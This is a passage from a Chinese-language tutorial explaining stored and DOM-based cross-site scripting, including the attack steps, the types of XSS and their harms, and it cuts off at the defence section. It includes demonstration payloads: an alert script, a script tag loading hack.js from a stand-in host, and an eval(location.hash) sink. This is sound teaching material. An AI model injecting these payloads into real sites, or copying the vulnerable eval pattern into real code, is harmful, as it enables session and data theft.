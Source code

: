 ```html
<!-- 评论 -->
<script>alert(1)</script>

<!-- 跨站脚本注入 -->
<script src="http://localhost:4000/hack.js"></script>
```

#### DOM 型 XSS

- DOM型：基于 DOM 或本地的 XSS 攻击

  wifi 流量劫持、DNS 劫持，并且直接返回钓鱼页面

DOM 型 XSS 其实是一种特殊类型的反射型 XSS，通过 **JS 操作 DOM 树** 动态地 **输出数据到页面**，而不依赖于将数据提交给服务器端，它是基于 DOM 文档对象模型的一种漏洞

DOM 型 XSS 的攻击步骤：

1. 攻击者构造出特殊的 URL，其中包含恶意代码
2. 用户打开带有恶意代码的 URL
3. 用户浏览器接收到响应后解析执行，前端 JavaScript 取出 URL 中的恶意代码并执行
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作

```html
<script>
document.write("<script>alert(0)<\/script>")
eval(location.hash.substr(1))
</script>
```

#### 区别

反射型 XSS 跟存储型 XSS 区别：

- 存储型 XSS 的恶意代码存在数据库里
- 反射型 XSS 的恶意代码存在 URL 里

DOM 型 XSS 和前两种 XSS 区别：

- DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞
- 其他两种 XSS 都属于服务端的安全漏洞

### 攻击危害 

- 盗取用户 Cookie
- 钓鱼攻击
- 偷取网站的任意数据
- 偷取用户的资料
- 偷取用户的秘密和登录态
- 删除目标文字、恶意篡改数据、嫁祸
- 劫持用户 Web 行为，进一步渗透内网
- 蠕虫式挂马攻击、刷广告、刷流量、破坏网上数据

### 防范手段

#### HEAD
